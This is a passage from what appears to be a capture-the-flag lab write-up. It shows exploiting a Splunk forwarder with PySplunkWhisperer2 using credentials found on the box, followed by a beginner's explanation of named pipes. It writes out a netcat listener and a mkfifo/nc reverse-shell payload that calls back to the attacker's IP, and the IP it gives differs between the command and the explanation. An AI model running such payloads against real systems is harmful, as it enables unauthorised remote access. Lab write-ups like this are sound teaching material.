 

It fails with an authentication error. No problem, we have shaun:Guitar123. Let us try that with a reverse shell. Before running the exploit, start a listener on port 1994:

`nc -lvp 1994`

Now run:

`python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --username shaun --password Guitar123 --lhost 10.10.14.40 --payload 'rm /tmp/0xjcbk_pipe;mkfifo /tmp/0xjcbk_pipe;cat /tmp/0xjcbk_pipe|/bin/sh -i 2>&1|nc 10.10.14.40 1994 >/tmp/0xjcbk_pipe'`

* `--host 10.10.10.209` is the target.
* `--username shaun` and `--password Guitar123` are the creds we found in the logs.
* `--lhost 10.10.14.38` is our attacking IP.
* `--payload` is a quick trick using mkfifo to spawn a shell that connects back to us.

***

#### **Understanding the Payload (Optional)**

_Feel free to skip this part, but if you're curious about how the payload works and why it gives us remote code execution (RCE), here's a breakdown._

***

#### **TL;DR: How This Payload Gets Us RCE**

This payload creates a **reverse shell** using a **named pipe (FIFO)** to keep the connection stable.

1. **Creates a named pipe** (`mkfifo`) to act as a queue for input/output.
2. **Spawns an interactive shell** (`/bin/sh -i`) to execute commands.
3. **Uses netcat (`nc`) to send the shell’s output** to our attack machine (`10.10.14.38:1994`).
4. **Keeps the connection alive** by continuously reading/writing from the pipe.

***

#### **How Does This Relate to the `|` Pipe in Linux?**

In Linux, we commonly use the **pipe (`|`) operator** to send the output of one command **into** another.

**Example: Using a Simple Pipe**

```bash
echo "hello" | cat
```

* **`echo "hello"`** outputs the text `"hello"`.
* **`|` (pipe operator)** takes that output and sends it as input to `cat`.
* **`cat` reads it and prints `"hello"` back**.

This is the **exact same concept** as what our named pipe does—**except our named pipe is persistent** instead of temporary.

**What’s the Problem With a Normal Pipe?**

A regular `|` works **once** and then **closes**:
